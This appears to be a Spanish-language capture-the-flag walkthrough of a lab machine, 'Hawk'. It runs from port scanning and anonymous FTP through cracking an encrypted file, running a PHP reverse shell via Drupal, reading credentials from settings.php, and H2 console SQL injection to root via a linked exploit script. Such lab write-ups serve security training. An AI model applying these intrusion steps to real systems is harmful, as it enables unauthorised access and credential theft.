```bash
ping -c 2 10.10.10.102

PING 10.10.10.102 (10.10.10.102) 56(84) bytes of data.
64 bytes from 10.10.10.102: icmp_seq=1 ttl=63 time=135 ms
64 bytes from 10.10.10.102: icmp_seq=2 ttl=63 time=131 ms
```

## Recon

```bash
sudo nmap -p- --open --min-rate 5000 -v -n -Pn 10.10.10.102 -oG allPorts
nmap -sCV -p 21,22,80,5435,8082,9092 10.10.10.102 -oN targeted
```

```bash
# Nmap 7.95 scan initiated Fri Jul 25 19:10:12 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p 21,22,80,5435,8082,9092 -oN targeted 10.10.10.102
Nmap scan report for 10.10.10.102
Host is up (0.13s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jun 16  2018 messages
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh           OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
|   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
|_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
80/tcp   open  http          Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome to 192.168.56.103 | 192.168.56.103
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
5435/tcp open  tcpwrapped
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9092-TCP:V=7.95%I=7%D=7/25%Time=68840ED5%P=x86_64-pc-linux-gnu%r(NU
SF:LL,45E,"\0\0\0\0\0\0\0\x05\x009\x000\x001\x001\x007\0\0\0F\0R\0e\0m\0o\
SF:0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\0t\0o\0\x20\0t\0h\0i
SF:\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n\0o\0t\0\x20\0a\0l\0
SF:l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0A\0l\0l\0o\0w\0O\0t\
SF:0h\0e\0r\0s\xff\xff\xff\xff\0\x01`\x05\0\0\x01\xd8\0o\0r\0g\0\.\0h\x002
SF:\0\.\0j\0d\0b\0c\0\.\0J\0d\0b\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0:
SF:\0\x20\0R\0e\0m\0o\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\0
SF:t\0o\0\x20\0t\0h\0i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n\
SF:0o\0t\0\x20\0a\0l\0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0A
SF:\0l\0l\0o\0w\0O\0t\0h\0e\0r\0s\0\x20\0\[\x009\x000\x001\x001\x007\0-\x0
SF:01\x009\x006\0\]\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\
SF:0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0J\0d\0b\
SF:0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\0
SF:o\0n\0\.\0j\0a\0v\0a\0:\x003\x004\x005\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0g
SF:\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o
SF:\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0
SF::\x001\x007\x009\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e
SF:\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\0
SF:D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x005\x005\0\)\0
SF:\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D
SF:\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0t
SF:\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x004\x004\0\)\0\n\0\t\0a\0t\0\x20\0o\
SF:0r")%r(Help,45E,"\0\0\0\0\0\0\0\x05\x009\x000\x001\x001\x007\0\0\0F\0R\
SF:0e\0m\0o\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\0t\0o\0\x20
SF:\0t\0h\0i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n\0o\0t\0\x2
SF:0\0a\0l\0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0A\0l\0l\0o\
SF:0w\0O\0t\0h\0e\0r\0s\xff\xff\xff\xff\0\x01`\x05\0\0\x01\xd8\0o\0r\0g\0\
SF:.\0h\x002\0\.\0j\0d\0b\0c\0\.\0J\0d\0b\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i
SF:\0o\0n\0:\0\x20\0R\0e\0m\0o\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0
SF:s\0\x20\0t\0o\0\x20\0t\0h\0i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\
SF:0\x20\0n\0o\0t\0\x20\0a\0l\0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t
SF:\0c\0p\0A\0l\0l\0o\0w\0O\0t\0h\0e\0r\0s\0\x20\0\[\x009\x000\x001\x001\x
SF:007\0-\x001\x009\x006\0\]\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\
SF:0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\
SF:0J\0d\0b\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\(\0D\0b\0E\0x\0c\0e\0
SF:p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x003\x004\x005\0\)\0\n\0\t\0a\0t\0\x20
SF:\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p
SF:\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0
SF:a\0v\0a\0:\x001\x007\x009\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\
SF:0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e
SF:\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x005\x
SF:005\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\
SF:0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c
SF:\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x004\x004\0\)\0\n\0\t\0a\0t\
SF:0\x20\0o\0r");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 25 19:10:28 2025 -- 1 IP address (1 host up) scanned in 16.22 seconds

```
### Web 8082



Podemos logearnos como anonymous en FTP:

```bash
ftp 10.10.10.102
```



https://docs.openssl.org/3.2/man1/openssl-enc/

```bash
file .drupal.txt.enc
```

https://github.com/vlohacks/encrack

```bash
cat drupal.txt.enc | base64 -d > drupal.enc
```

```bash
./encrack -i ./drupal.enc -w /usr/share/wordlists/rockyou.txt -m firstascii -t 64 

* Loaded 160 bytes ciphertext
* Warning: no cipher list provided, using auto-suggested list
* Loaded 144 cipher(s)
* Loaded 14344391 password(s)
[MATCHER] Warning: setting default value of 'numBytes' to value '32'
[MATCHER] use -o numBytes=<value> to set user defined value
* Running 64 thread(s)...
[30]: Found candidate!
Password : friends
Cipher   : aes-256-cbc
Plaintext: Daniel,

Following the password for the portal:

PencilKeyboardScanner123

Please let us know when the portal is ready.

Kind Regards,

IT department
�9�o6�q
[30]: Found candidate!
Password : friends
Cipher   : aes256
Plaintext: Daniel
```

https://github.com/thosearetheguise/decrypt-openssl-bruteforce

```bash
python3 decrypt-openssl-bruteforce.py -i /root/opt/hawk/drupal.enc -w /usr/share/wordlists/rockyou.txt -s -v -o /root/opt/hawk/out.txt
```

```
Optional argument values:
Salted:True 
base64:False 
cipher:-aes256
Trying password: 123456

Key Found! The key is:123456
Output File Name : out.txt
```

Logeamos en drupal web

```
admin
PencilKeyboardScanner123
```



Alli hay una seccion para subir una pagina basica, pense en una reverse shell de pentest monkeys [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) pero en la parte inferior solo mencionan la interpretacion de html, lo cual es curioso porque con wappalyzer veo que si hay contenido php:



Despues de buscar si habia alguna opcion para habilitar php, veo que esta la interpretacion desctivada, en la seccion de modulos:



Solo es activarlo y volver a la reverse shell y cambiar de Full html a PHP code y se ejecutara la reverse shell:



```
www-data@hawk:/var/www/html/sites/default$ cat settings.php | grep "password"
cat settings.php | grep "password"
 *   'password' => 'password',
 * username, password, host, and database name.
 *   'password' => 'password',
 *   'password' => 'password',
 *     'password' => 'password',
 *     'password' => 'password',
      'password' => 'drupal4hawk',
```

`drupal4hawk`

Si intentamos usar esta contraseña con daniel se nos abre el python3 interactivo.

```
su daniel
Password: drupal4hawk

Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```

```bash
import pty; pty.spawn('/bin/bash')
```

Una vez teniendo una shell como daniel, procedemos a enumerar:



## H2 Console SQLi -> RCE

```bash
netstat -nltp
```



Anteriormente vimos que el 8082 tenia un aviso de que no es posible desde el exterior visualizarlo, pero ahora que somos daniel quiza podriamos ahora.

```bash
ssh -L 8082:localhost:8082 daniel@10.10.10.102
```



https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/h2-java-sql-database.html#h2-sql-injection-to-rce

El JDBC URL es donde crearemos la base de datos, la cambiare en la ruta /root, una vez cambiado podemos conectarnos sin credenciales:


https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html?source=post_page-----c5fd87e8a493---------------------------------------

A traves de este articulo nos mencionan una posible forma de ejecutar comandos remotos a traves de inyecciones sql.



[reverse shell one liners](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Despues de intentar multiples reverse shell's, intente por algo mas sencillo y es subir de nuevo la reverse shell de pentest monkeys para ejecutarlo con php




Otra via mas facil es con este script para obtener la shell sin interactuar con la consola H2.

https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed

```bash
python3 h2-exploit.py -H 127.0.0.1:8082 -d jdbc:h2:~/root
```

